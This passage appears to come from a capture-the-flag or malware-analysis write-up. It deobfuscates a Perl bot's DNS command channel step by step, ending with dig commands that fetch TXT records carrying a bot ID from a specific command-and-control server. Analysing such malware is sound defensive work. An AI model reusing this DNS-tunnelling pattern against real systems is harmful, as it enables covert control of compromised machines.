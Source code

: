 Knowing that the malware works over DNS and having a very 'dig' looking command, we can make the assumption that `$d` is 'dig ':
```perl
`dig +tries=1 $_.$u.cmd.nuked.be.$w\@$v`
`dig files.$v$w\@$v`
```

From the pcap, we know the bot ID is always given in each command, so `$u` is probably the user:
```perl
`dig +tries=1 $_.3060547069917483.cmd.nuked.be.$w\@$v`
`dig files.$v$w\@$v`
```

We also notice that the malware always talks directly with the server itself, instead of using the DNS server of the (home) subnet. This can be done with the "@x.x.x.x" in 'dig'.
```perl
`dig +tries=1 $_.3060547069917483.cmd.nuked.be.$w @54.172.156.249`
`dig files.$v$w @54.172.156.249`
```

Almost there. The 'dig' command also allows one to define the Resource record type by just defining it after the query. Seems like a good fit for `$w`:
```perl
`dig +tries=1 $_.3060547069917483.cmd.nuked.be. TXT @54.172.156.249`
`dig files.$v TXT @54.172.156.249`
```

Given that we query the specific DNS server and recursive lookups are disabled, we know that the `$v` must be a zone on the DNS server. Although nothing prohibites running other zones besides 'nuked.be.' and child zones, we can at least try to see if 'files.nuked.be.' exists:

```
$ dig files.nuked.be. SOA 

; <<>> DiG 9.9.5-3ubuntu0.7-Ubuntu <<>> files.nuked.be. SOA
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 24812
;; flags: qr rd ra ad; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 512
;; QUESTION SECTION:
;files.nuked.be.			IN	SOA

;; ANSWER SECTION:
files.nuked.be.		47	IN	SOA	ns.files.nuked.be. hostmaster.files.nuked.be. 2016021801 300 300 300 300

;; Query time: 6 msec
;; SERVER: 8.8.8.8#53(8.8.8.8)
;; WHEN: Tue Mar 08 11:04:01 EST 2016
;; MSG SIZE  rcvd: 93
```

Success!
